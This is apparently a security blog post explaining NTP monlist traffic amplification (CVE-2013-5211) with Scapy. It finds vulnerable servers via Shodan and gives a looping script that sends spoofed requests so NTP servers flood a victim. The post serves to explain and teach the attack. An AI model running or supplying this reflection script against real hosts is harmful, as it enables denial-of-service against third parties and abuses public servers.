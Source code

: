 ```yaml
---
title: "A look at NTP Traffic Amplification (CVE-2013-5211)"
date: 2019-10-20
toc: true
toc_label: "Table of Contents"
categories:
  - blog
tags:
  - Network Security
  - NTP Amplification
  - Scapy
---
```


# Introduction
In a previous [post][dos], we had a look at some low-level DoS attacks. In this post, we will take a look at CVE-2013-5211, which uses vulnerable NTP servers to cause a DoS.

# NTP
The Network Time Protocol is a protocol designed to synchronize the clocks of computers over a network. This is the protocol that all your devices use to get the correct time for your timezone. 

In this post, we are concerned with the mode 7 packet, which is used exchanging for data between an NTP server and a client for purposes other than time synchronization, e.g., monitoring, statistics gathering, and configuration. It has the following format:

![NTP-Mode-7-Message-Format](../../assets/images/ntp-amplification/ntp_priv_format.png)

Some of the various request codes are:

1. REQ_PEER_LIST
2. REQ_PEER_STATS
3. REQ_CONFIG
4. REQ_MON_GETLIST_1 

# NTP Traffic Amplification
Of the various request codes, the ones I am interested in today is the *REQ_MON_GETLIST* or *REQ_MON_GETLIST_1*. 

Sending a request, with either of those codes, to a vulnerable NTP server will result in the server responding with the most recent interactions of it with the last 600 hosts. The responses include the IP addresses of hosts, source port used, NTP version, and the mode. 

This issue affects server versions before 4.2.7p26. To search for vulnerable servers, I looked up servers running ntpd 4.2.6 on shodan.

Now to test this, I have written the following python code, using the `NTPPrivate` class of scapy. 

```python
# Create the request
ip = IP(dst = ntp_ip)
udp = UDP(sport = RandShort(), dport = 123)
ntp = NTPPrivate(mode=7, implementation="XNTPD", request_code="REQ_MON_GETLIST_1")

# Send the request to the NTP server
packet = ip/udp/ntp
send(packet)
```

Running the above code and looking at the request and responses in Wireshark, we can see the following.

![requst-response-1](../../assets/images/ntp-amplification/req_resp_1.png)

There are two issues with this. The first being the information disclosure. Looking at one of the response, we can see the following details being disclosed. 

![requst-response-1](../../assets/images/ntp-amplification/disclosure.png)

The second issue is the size and number of returned packets. For one packet of length 50 sent by us, we received 27 packets, each of length 482. This is a clear amplification of the traffic. Attackers constantly look for such vulnerabilities while trying to DoS a target. 

To attack a target using this vulnerability, all the attacker has to do is send spoofed requests by changing the source IP address. All the responses are then sent to the target, which can overwhelm it. 

The above code can be modified in the following way to target hosts with an amplification attack.

```python
# Create the NTP request
ip = IP(src = g_target_ip)
udp = UDP(sport = RandShort(), dport = 123)
ntp = NTPPrivate(mode=7, implementation = "XNTPD", request_code="REQ_MON_GETLIST_1")

while True:
  # Send the request to each of the NTP servers
  for ntp_ip in g_ntp_servers:
    ip.dst = ntp_ip
    packet = ip/udp/ntp
    send(packet)
```

The code takes a list of vulnerable NTP servers, and continuously sends each one of them spoofed NTP requests. Now all the responses are received by the target instead of our machine.

That's it for this post. The entire script is available on my github [page][page].

# Disclaimer
The attacks mentioned on any of the posts on my website are to be tested at your own risk. Please do not use them without the permission of the target host. I will not be responsible for any damage caused by running them.  

[dos]: https://fsec404.github.io/blog/Introduction-to-a-few-network-attacks/
[page]: https://github.com/venkat-abhi/network-attacks/